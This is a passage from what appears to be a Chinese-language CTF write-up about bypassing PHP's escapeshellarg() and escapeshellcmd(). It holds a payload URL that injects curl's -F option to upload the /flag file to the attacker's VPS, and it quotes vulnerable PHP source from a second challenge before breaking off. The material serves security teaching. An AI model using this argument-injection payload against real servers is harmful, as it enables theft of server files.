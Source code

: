 escapeshellarg — 把字符串转码为可以在 shell 命令里使用的参数

escapeshellcmd — shell 元字符转义

```
首先要明确会被\转义的符号：
\、?、<、>、(、)、[、]、;、不配对的'、''
```

[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)

![](https://i.loli.net/2021/07/16/ejALvfW6SUzXb9s.png)



```php
$url = $_GET['url'];
$urlInfo = parse_url($url);
if(!("http" === strtolower($urlInfo["scheme"]) || "https"===strtolower($urlInfo["scheme"]))){
    die( "scheme error!");
 }
```

> parse_url — 解析 URL，返回其组成部分
>
> - scheme - 如 http
> - host
> - port
> - user
> - pass
> - path
> - query - 在问号 `?` 之后
> - fragment - 在散列符号 `#` 之后
>
> if语句对scheme部分进行判断，要求是http或者https



提示了flag在/flag，利用curl的-F参数传到vps上

```
http://xxx.xxx.xxx.xxx:12121/%27%20-v%20-F%20%27file=@/flag
```

![](https://s2.loli.net/2022/01/18/xHc9yYfrdaVBqmz.png)

## 689-sycsec

```php
<?php 
error_reporting(0);
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = "upload/".$_GET['path'];
    
}else{
    show_source(__FILE__);
    exit();
}

if(strpos($path,'..') > -1){
    die('This is a waf!');
}


if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
```
